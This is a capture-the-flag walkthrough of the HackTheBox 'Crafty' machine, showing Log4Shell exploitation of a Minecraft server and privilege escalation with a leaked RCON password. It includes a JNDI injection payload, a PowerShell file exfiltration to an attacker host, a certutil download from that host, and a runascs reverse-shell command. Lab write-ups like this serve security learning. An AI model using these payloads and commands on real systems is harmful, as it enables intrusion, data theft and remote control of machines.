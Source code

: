 ```yaml
---
title: "CTF: Crafty (HTB, Windows, Easy)"
excerpt: "A detailed walkthrough of \"Crafty\" machine on HackTheBox."
tagline: "Take over a Minecraft server!"
header:
  teaser: /docs/assets/images/teasers/ctf/crafty.png
  og_image: /docs/assets/images/teasers/ctf/crafty.png
  overlay_image: /docs/assets/images/teasers/ctf/crafty2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Windows
  - Difficulty-Easy
  - Log4Shell
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Crafty" machine on HackTheBox that is based on Windows operating system and categorized as "Easy" by difficulty. Never in my entire existence had I thought I would fall so low that I'd touch Minecraft in any shape or form, however, the day has come... "Enjoy" a takeover of a Minecraft server that is vulnerable to the infamous **Log4Shell** (CVE-2021-44228)! It should be noted that at the moment of writing, the machine has not been implemented in a quality manner, and even if you follow all the instructions step by step, you may still experience connectivty issues and exploits not functioning properly (it's recommended to spare yourself from pain and simply reset the machine). However, through rigorous testing, yours truly described the smoothest exploitation scenario.

## Reconnaissance

Run **nmap** to scan all ports:

```bash
nmap -p- <IP>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/nmapscan.png" alt="">
  <figcaption>Ports 80 HTTP and 25565 Minecraft are open.</figcaption>
</figure>

As soon as Minecraft appeared in the scan results, Log4Shell came across my mind due to a video watched on YouTube a while ago, Minecraft servers being vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). It was possible to inject **JNDI** queries right into the game chat and the server would execute them, provided that it utilized **Log4j** versions 1.7 to 1.18.

Navigating to the website would feature the following page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/craftypage.png" alt="">
  <figcaption>Donate your lunch money!</figcaption>
</figure>

The website hosted on Windows IIS cannot be exploited in any way, so the Challenger has to focus on **port 25565** where Minecraft is running. The home page also mentions the server's subdomain, **play.crafty.htb**.

## Weaponization

It is required to install the following tools to establish foothold:

* Download the following [Log4j PoC](https://github.com/kozmer/log4j-shell-poc/tree/main?tab=readme-ov-file) by Kozmer from GitHub.

* The exploit requires **jdk-8u20** and checks if its present in the directory. Downloading the exact version from Oracle website prompts for account creation. I was able to find a slightly different jdk version - [jdk-8u202](https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz) that works with the exploit. Once downloaded and extracted in the same directory as the POC script, rename the jdk directory to **jdk1.8.0_20** in order to bypass the script check.

* Download [PyCraft](https://github.com/ammaraskar/pyCraft): a CLI Minecraft client that allows to connect to the server and send messages to the game chat (best alternative to avoid the disgrace of install an actual Minecraft client on your computer).

Once the above steps have been completed, modify the code of **poc.py** file in the *log4j-shell-poc* directory to execute **"cmd.exe"** (since the server is hosted on Windows) in the payload:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/pocpy.png" alt="">
  <figcaption></figcaption>
</figure>

## Exploitation / Foothold

Run Kozmer's PoC:

```bash
python3 poc.py --userip YOUR_IP --webport YOUR_HTTP_PORT --lport YOUR_NETCAT_PORT
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/kozmerpocrun.png" alt="">
  <figcaption></figcaption>
</figure>

The exploit will open a HTTP server on the specified port where it will host a malicious payload referring to Netcat listener. Also it opens an LDAP server with the instructions that would redirect the server to the Attacker's HTTP server. In the output, the tool specifies a JNDI payload that will need to be injected in the game chat.

Run Netcat:

```bash
nc -lnvp <PORT>
```

Connect to the server with PyCraft:
```bash
python start.py -o -u $USER -s play.crafty.htb:25565
# Once the chat opens, inject the JDNI payload provided by the exploit:
${jndi:ldap://<YOUR IP>:1389/a}
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/pycraft.png" alt="">
  <figcaption></figcaption>
</figure>

### User flag

The Challenger should receive a reverse shell on the Netcat listener. Claim the user flag:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/user.png" alt="">
  <figcaption></figcaption>
</figure>

## Privilege escalation

Navigate to *C:\\User\\svc_minecraft\\server\\plugins*. There's a **playercounter-1.0-SNAPSHOT.jar** file in there:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/plugins.png" alt="">
  <figcaption></figcaption>
</figure>

Now it's necessary to transfer the file to the Attacker's machine to extract its contents. Upload it to your HTTP server (other file transfer methods were not working properly on this machine at the moment of writing) with Powershell. You can use [SimpleHTTPServerWithUpload](https://github.com/Tallguy297/SimpleHTTPServerWithUpload) Python tool.

```python
python3 SimpleHTTPServerWithUpload.py <PORT>
```
Then on the Target machine:
```powershell
powershell
(New-Object System.Net.WebClient).UploadFile('http://<IP>:<PORT>/', 'playercounter-1.0-SNAPSHOT.jar')
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/jarupload.png" alt="">
  <figcaption></figcaption>
</figure>

The file should be uploaded in the directory with HTTP server tool.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/jardownload.png" alt="">
  <figcaption></figcaption>
</figure>

Let's view the contents of the file with **jd-gui**. Install it on your machine with *sudo apt-get jd-gui*. In the source code of **Playercounter.class** we see a command for **rcon** (Remote Console for the Minecraft server) that contains a <ins>password</ins> string.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/rconpass.png" alt="">
  <figcaption></figcaption>
</figure>

It's time to use the discovered passsword. For this purpose, we will utilize [RunasCs](https://github.com/antonioCoco/RunasCs) - a utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.

Download the tool. Start a HTTP server and transfer the tool to the Target machine:

```powershell
# Attacker:
python3 -m http.server <PORT>
# Target:
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/runascs.exe" runascs.exe
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/rundadownload.png" alt="">
  <figcaption>Example of successfull download.</figcaption>
</figure>

Start a Netcat listner on the Attacker machine. Back on the Target machine, run **runascs.exe** with the following parameters:

```powershell
.\runascs.exe administrator <PASSWORD> cmd.exe -r <IP>:<PORT>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/runascscmd.png" alt="">
  <figcaption></figcaption>
</figure>

This will send a reverse shell as **administator** user to the Attacker. Claim the root flag in the  C:\\Users\\Administrator\\Desktop folder.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/crafty/root.png" alt="">
  <figcaption>Solved, now delete Minecraft from your computer!</figcaption>
</figure>


**Thank you for your attention and happy hacking!**
{: .notice--primary}
